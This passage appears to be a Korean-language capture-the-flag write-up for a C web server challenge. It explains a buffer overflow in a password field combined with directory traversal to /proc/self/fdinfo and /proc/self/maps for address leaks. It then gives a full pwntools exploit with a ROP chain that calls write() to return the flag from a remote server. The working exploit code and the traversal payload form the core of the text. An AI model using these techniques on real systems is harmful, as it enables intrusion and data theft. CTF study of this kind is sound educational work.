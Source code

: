 즉 offset base로 stack에 임의의 50bytes를 작성할 수 있다.

앞에서 password에서 overflow가 발생하지만 sscanf로 저장하기 때문에 null btye는 포함되지 않는다. 그리고 끝에 null byte가 들어간다.
하지만 기가막히가 90바이트를 꽉 채워서 입력하면 정확하게 ret의 6bytes를 수정할 수 있게 된다. 그렇기에 ret 명령어 중 0x00~0x1f가 포함되지 않은 주소에 있는 곳으로 ret을 덮고 그 이후에 spell에 rop payload를 담아 ret+8 주소에 작성되도록 location을 조정하면 exploit이 가능하다.

이때 flag는 전역변수에 저장되기 때문에 pie base를 안다면 쉽게 값을 알 수 있다.

exploit code는 다음과 같다.
```python
from pwn import *

context.log_level = 'debug'

p = remote('3.34.190.217', '8003')

pause()

libc_base = int(input('Input libc base address: '), 16)
pie_base = int(input('Input pie base address: '), 16)
fd = int(input('Input fd: '))

flag = pie_base + 0x5040
ret = pie_base + 0x1e27

poprdi = libc_base + 0x2a3e5
poprsi = libc_base + 0x141d5e
poprsi2 = libc_base + 0x2a3e3

#libc_write = libc_base + 0x114870 + 0x1b0
libc_write = libc_base + 0x114680

payload = p64(poprdi)
payload += p64(fd)
payload += p64(poprsi2)
payload += p64(flag)
payload += p64(0)
payload += p64(libc_write)

p.send(b'POST /magic1337 HTTP/1.1\r\nCookie: id=asdf\r\n\r\nid=aaaa&pw=' + b'b'*84 + p64(ret)[0:6] + b'&location=96&spell=' + payload)

p.interactive()
```

exploit에서 올바른 fd를 입력하기 위해서 `GET /../../../../../../../proc/self/fdinfo/{fd}` 를 통해 4~ 이후의 fd부터 conntection이 연결되어 open 된 fd 번호를 찾아 해당 값을 넣으면 flag를 받아올 수 있다.

### 블로그 포스트 작성자의 추가적인 코멘트

C 언어로 구현된 웹 서버에서 LFI, BOF 취약점을 이용해 푸는 문제입니다. 이 문제는 릭을 할 때 서버의 파일에 접근해 릭을 해와야 합니다. 메모리 매핑에 대한 정보는 `/proc/self/maps` 파일에서 확인하실 수 있습니다. 해당 파일에는 라이브러리, 바이너리, 스택, 힙의 베이스주소와 권한에 대한 정보를 담고 있습니다. 이를 이용해 라이브러리의 가젯들을 사용할 수 있습니다. 
